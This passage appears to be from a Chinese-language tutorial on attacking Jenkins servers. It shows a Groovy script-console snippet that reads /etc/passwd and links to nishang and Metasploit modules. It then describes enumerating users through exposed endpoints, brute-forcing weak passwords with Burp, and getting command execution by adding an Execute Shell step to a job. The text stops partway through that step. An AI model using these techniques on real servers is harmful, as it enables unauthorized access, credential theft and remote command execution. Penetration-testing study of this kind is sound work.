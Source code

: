 执行Groovy代码，读取服务器本地/etc/passwd文件：
try{

text = new File("/etc/passwd").getText();

out.print text

} catch(Exception e){

}
 
三、高逼格的Powershell&msf

https://github.com/samratashok/nishang
http://www.rapid7.com/db/modules/exploit/multi/http/jenkins_script_console
http://www.labofapenetrationtester.com/2014/06/hacking-jenkins-servers.html
jenkins_msf_3
 
nishang是一个powershell脚本集 msf上面有jenkins对应的exploit 感觉都没必要
四、登录认证的突破

jenkins可以对每个用户分配不同的权限，如Overall/RunScripts或者Job/Configure权限
user_config_2
 
 
1）某些版本匿名用户可以访问asynchPeople 可爆破密码
（通常很多密码跟用户名一样或者是其他弱口令(top1000)，尤其是内网）
 
//用户列表：包含所有已知“用户”，包括当前安全域中的登录ID和在变更记录的提交信的息里的人
http://jenkins.secpulse.com:8080/asynchPeople/
jenkins_asynchPeople
 
所有构建(builds)
http://jenkins.secpulse.com:8080/view/All/builds
可以导出为XML
http:// jenkins.secpulse.com:8080/view/All/cc.xml
userContent(一般就一个readme):
http:// jenkins.secpulse.com:8080/userContent/
Computers:
http:// jenkins.secpulse.com:8080/computer/
jenkins_computer
 
2） 熟练的猜密码
根据这些用户名 熟练的猜密码 我们的目标就是要一个有命令执行权限的用户（最好是这样，但也不苛求）
有时候是域认证的用户 爆破立马触发各种邮件报警 显然就不理智 端详猜密码是个绝技~
3） 构造精准字典，来爆破
最好是构造精准的字典 也可以是top1000之类的弱口令
jenkins_burp
爆破Payload里面的json串可以删除
主要根据location判断爆破成功与否
 
五、低权限用户命令执行突破

 
不小心猜了个用户 没有执行权限 但是有job查看和configure权限
http://jenkins.secpulse.com:8080/job/Job1/configure
jenkins_execute_shell_1
 
新加一个Execute Shell添加command  （win平台用Execute Windows batch command）
